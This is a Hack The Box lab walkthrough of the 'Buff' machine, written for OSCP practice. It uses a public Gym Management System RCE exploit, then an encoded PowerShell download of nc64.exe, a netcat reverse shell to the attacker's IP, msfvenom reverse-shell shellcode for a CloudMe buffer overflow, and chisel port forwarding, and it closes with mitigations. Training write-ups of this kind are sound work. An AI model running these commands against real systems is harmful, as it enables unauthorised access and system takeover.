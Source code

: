 ```yaml
---
title: Buff
date: 2025-05-29
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Windows, Gym-management-software-rce, buffer-overflow-privesc] 
image: buff.png
media_subpath: /assets/img/posts/2025-05-29-buffHTB/
---
```

## Introduction

In this walkthrough, I tackled the Buff machine, which had an exposed Gym Management System 1.0 vulnerable to unauthenticated remote code execution. I exploited this flaw to gain initial access. Once inside, internal enumeration revealed a service running on port 8888. By locating its installation files on the disk, I was able to analyze and debug the service locally. I then used port forwarding to expose this internal service externally and successfully exploited it to advance further.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

## Web

### Port 8080

Version - Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)

![image.png](image%202.png)

## Exploitation

![image.png](image%203.png)

Accessing `Contact` page we can the version of the software.

I found the following exploit and using it got access to the target:

[Gym Management System 1.0 - Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/48506)

```bash
python 48506.py 'http://10.10.10.198:8080/'
```

![image.png](image%204.png)

Now let’s get a reverse shell.

I did that transferring `nc64.exe` to the target first encoding powershell command to base64 and then using nc64.

```powershell
powershell -enc aQB3AHIAIAAtAHUAcgBpACAAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAxADIALwBuAGMANgA0AC4AZQB4AGUAIAAtAE8AdQB0AGYAaQBsAGUAIABuAGMANgA0AC4AZQB4AGUA
```

![image.png](image%205.png)

```powershell
C:\xampp\htdocs\gym\upload\nc64.exe 10.10.14.12 443 -e cmd
```

Now I have a normal shell:

![image.png](image%206.png)

## Privilege Escalation

While checking for my user home directory I found some application was installed to the target:

![image.png](image%207.png)

I think the following exploit might be apprpriate:

[CloudMe 1.11.2 - Buffer Overflow (PoC)](https://www.exploit-db.com/exploits/48389)

```bash
msfvenom -a x64 -p windows/x64/exec CMD="C:\\tools\\reverse.exe" -b '\x00\x0A\x0D' -f python
```

Exploit uses port 8888 which default port for that application, but it appears that port is accessible only locally so I am gonna make it accessible using port forwarding with chisel:

![image.png](image%208.png)

```bash
./chisel_1.10.1_linux_amd64 server --reverse --port 7680 -v #linux

.\chisel.exe client 10.10.14.12:7680 R:8888:127.0.0.1:8888 #target
```

[Chisel Reverse Port Forwarding](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel#bkmrk-reverse-local-port-t)

I got a connection but it is very slow:

![image.png](image%209.png)

That’s why I am gonna use reverse shell shellcode directly:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
```

![image.png](image%2010.png)

## Mitigation

- Patch known vulnerabilities in third-party applications like Gym Management System.
- Limit access to internal services by implementing proper network segmentation.
- Remove unnecessary software and services from production systems.
- Regularly audit exposed ports and services to prevent unauthorized access.
- Use firewalls and access controls to restrict internal service exposure.
